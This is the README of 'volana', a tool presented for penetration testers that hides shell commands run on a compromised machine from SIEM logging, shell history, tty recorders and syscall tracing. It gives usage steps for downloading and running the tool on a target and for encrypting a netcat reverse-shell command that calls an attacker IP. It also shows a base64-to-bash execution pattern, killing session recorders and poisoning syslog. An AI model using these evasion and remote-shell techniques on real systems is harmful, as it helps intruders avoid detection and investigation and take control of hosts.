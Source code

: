 
<div align="center">
<h3><i>volana<sub> (moon in malagasy)</i></h3>
<img src="https://github.com/ariary/volana/blob/main/img/moon.png">


<p><strong><pre><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🌚<sub>(hide from)</sub></a>; <a href="#visible-for">🌞<sub>(detected by)</sub></a> } </code></pre></strong></p>
<h4> Shell command obfuscation to avoid SIEM/detection system </h4>
 <p> During pentest, an important aspect is to <b>be stealth</b>. For this reason you should <b>clear your tracks after your passage</b>. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the afterwards cleaning part alone useless.<br><br><code>volana</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, volana executes for you). Like this you <b>clear your tracks DURING your passage</b></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawn it, you are a hacker, it's your job ! [otherwise](#from-non-interactive-shell)). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/volana/releases/latest/download/volana

## Execute it
./volana

## You are now under the radar
volana » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
volana » [command]
```

Keyword for volana console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit volana console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `volana` with embedded encryption key.

**On attacker machine**
```shell
## Build volana with encryption key
make build.volana-with-encryption

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
volana encr "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./volana decr [encrypted_command]
## Now you have a bindshell, spawn it to make it interactive and use volana usually to be stealth (.volana)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against system that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

## Detection

Keep in mind that `volana` is not a miracle that will make you totally invisible. It aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.


### Hide from

Only the `volana` launch command line will be catched

* Detection systems that are based on history command output
* Detection systems that are based on history files
  * `.bash_history`, ".zsh_history" etc ..
* Detection systems that are based on bash debug traps
* Detection systems that are based on sudo built-in logging system
* Detection systems tracing all processes syscall system-wide (eg `opensnoop`)
* Terminal (tty) recorder (`script`, `screen -L`, [`sexonthebash`](https://github.com/ariary/sexonthebash), `ovh-ttyrec`, etc..)
  * Easy to detect & avoid: `pkill -9 script`
  * Not a common case
  * `screen` is a bit more difficult to avoid, however it does not register input (secret input: `stty -echo` => avoid)
  * Command detection Could be avoid with `volana` with encryption 

### Visible for

* Detection systems that have alert for unknown command (volana one)
* Detection systems that are based on keylogger
  * Easy to avoid: copy/past commands
  * Not a common case
* Detection systems that are based on syslog files (e.g. `/var/log/auth.log`)
  * Only for `sudo` or `su` commands
  * syslog file could be modified and thus be poisoned as you wish (e.g for */var/log/auth.log*:`logger -p auth.info "No hacker is poisoning your syslog solution, don't worry"
* Detection systems that are based on syscall (eg auditd,LKML/eBPF)
  * Difficult to analyze, could be make unreadable by making several diversion syscalls
* Custom `LD_PRELOAD` injection to make log
  * Not a common case at all

## Bug bounty

Sorry for the clickbait title, but no money will be provided for contibutors. 🐛

 Let me know if you have found:
* a way to detect `volana`
* a way to spy console that don't detect `volana` commands
* a way to avoid a detection system

[Report here](https://github.com/ariary/volana/issues/new/choose)

 
## Credit
* [8 ways to spy on console](https://github.com/annmuor/zn2021_8ways)
* [moonwalk](https://github.com/mufeedvh/moonwalk): similar tool that clear tracks AFTER passage
